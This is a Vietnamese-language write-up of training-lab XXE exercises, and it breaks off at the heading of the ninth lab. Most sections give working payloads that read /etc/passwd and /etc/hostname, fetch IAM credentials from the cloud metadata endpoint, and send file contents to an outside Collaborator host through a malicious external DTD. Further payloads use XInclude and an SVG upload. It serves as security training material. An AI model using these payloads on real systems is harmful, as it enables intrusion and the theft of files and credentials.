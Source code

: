 # 1. Exploiting XXE using external entities to retrieve files
Ta thấy chức năng stock check có body là một đoạn mã XML. Như vậy ta có thẻ exploit bằng cách chèn đoạn code sau vào body:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
Kết quả nội dung file /etc/passwd được in ra thành công
![image](https://user-images.githubusercontent.com/103978452/205596701-bb968712-24a2-4d79-94cd-6247202fb977.png)

# 2. Exploiting XXE to perform SSRF attacks
Cấu hình đoạn XML như sau:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```
Sau khi submit, ta thấy kết quả trả về `Invalid product ID: latest". Như vậy "latest" chính là response của "http://169.254.169.254". Truy cập "http://169.254.169.254/latest" thì ta lại được một chuỗi mới. Cứ như vậy, gửi URL đầy đủ là "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin", ta thu được SecretAccessKey.

![image](https://user-images.githubusercontent.com/103978452/206396710-4d353393-563d-45a0-ae34-68136b7c50db.png)

# 3. Blind XXE with out-of-band interaction
Cấu hình request như bài 2, nhưng thay đổi URL thành địa chỉ của Burp Collaborator. Sau khi submit, vào Burp Collaborator Client kiểm tra thì ta thấy có requests được gửi đến. Bài lab được giải thành công.

![image](https://user-images.githubusercontent.com/103978452/206397595-8e3a3423-55e8-4382-944a-cd02e89f8de4.png)

# 4. Blind XXE with out-of-band interaction via XML parameter entities
Cấu hình đoạn XML để gửi request đến Burp Collaborator sử dụng parameter entity:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE exploit [<!ENTITY % xxe SYSTEM "http://pa3d5ksa3lk30zok1tbyh6llqcw2kr.oastify.com"> %xxe; ]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```
Sau khi submit, vào Burp Collaborator kiểm tra thì thấy có requests được gửi đến. Bài lab được giải thành công.
# 5. Exploiting blind XXE to exfiltrate data using a malicious external DTD
Cấu hình xml trong request `POST /product/stock`

Nhận thấy khi sử dụng `&payload;`, xuất hiện thông báo "Entities are not allowed for security reasons". Như vậy website đã chặn regular entities. Tuy nhiên parameter entities vẫn có thể được sử dụng.

Đây là dạng blind XXE, như vậy ta sẽ exploit bằng cách gửi HTTP request tới Burp Collaborator có chứa thông tin cần lấy.

Ta cấu hình file `exploit.dtd` trong exploit server:
```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % wrapper "<!ENTITY &#x25; exploit SYSTEM 'http://bydfi29s6hf2n7xltrg9fn5sxj39ry.oastify.com/?%file;' >">
%wrapper;
%exploit;
```

Cách hoạt động của `exploit.dtd` như sau:
1) `%file;` sẽ chứa nội dung của file `/etc/hostname`
2) `%wrapper;` sẽ tạo ra một parameter là exploit
3) `%exploit;` sẽ gửi request đến Burp Collaborator Server của chúng ta, với path là nội dung của file `/etc/hostname`

Để gọi đến file `exploit.dtd` thì trong request `POST /product/stock`, ta khai báo phần DTD với nội dung:
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0aed008c038b2807c284bfa8010f0092.exploit-server.net/exploit.dtd"> %xxe;]>
```

Sau khi nhấn send, vào Burp Collaborator kiểm tra thì thấy có request gửi đến

![image](https://user-images.githubusercontent.com/103978452/208012711-599f7cc3-61de-4a99-9265-787b63b18544.png)

Sử dụng kết quả thu được để submit, thành công.

# 6. Exploiting blind XXE to retrieve data via error messages
Tương tự như lab #5, website đã chặn general entities, tuy nhiên vẫn cho phép parameter entities. Cấu hình payload như bài 5, tuy nhiên ta sẽ thay đổi nội dung file `exploit.dtd` để exploit.

Thay đổi nội dung `exploit.dtd` thành
```
<!ENTITY % file SYSTEM "file:///nonexistence/etc/passwd">
%file;
```
Nhận thấy rằng lỗi `XML parser exited with error: java.io.FileNotFoundException: /nonexistence/etc/passwd (No such file or directory)` xuất hiện.  Như vậy ta có thể exploit thông qua error messages.

Thay đổi nội dung `exploit.dtd` thành
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % wrapper "<!ENTITY &#x25; exploit SYSTEM 'file:///nonexistence/%file;' >">
%wrapper;
%exploit;
```

Kết quả bài lab được giải, nội dung file /etc/passwd được hiển thị.

![image](https://user-images.githubusercontent.com/103978452/208018457-f9d55bac-0a5d-49b2-8ee7-77619090ad90.png)

# 7. Exploiting XInclude to retrieve files
Ta thấy trong phần body của request `POST /product/stock` chỉ chứa hai tham số productId và storeId. Như vậy ta giả sữ giá trị của productId sẽ được đưa vào một đoạn xml ở server side.

Ta thay đổi productId như sau:
```
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```
Lưu ý là productId được URL encoded. Sau khi gửi, ta có được nội dung file /etc/passwd

![image](https://user-images.githubusercontent.com/103978452/206656757-5f3e6ceb-c0a4-49f2-bda6-b7cce8430317.png)

# 8. Exploiting XXE via image file upload
Trong request `POST /post/comment`, ta upload file svg với nội dung như sau:
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/hostname"> ]>
<svg version="1.1" height="50" width="300"
     xmlns="http://www.w3.org/2000/svg"
>
  <text x="0" y="25" font-size="30" fill="white">&xxe;</text>
</svg>
```
Sau khi submit, vào link hình ảnh đã upload, ta thu được nội dung file /etc/hostname là "0478d36e6700". Submit solution, kết quả thành công.

# 9. Exploiting XXE to retrieve data by repurposing a local DTD

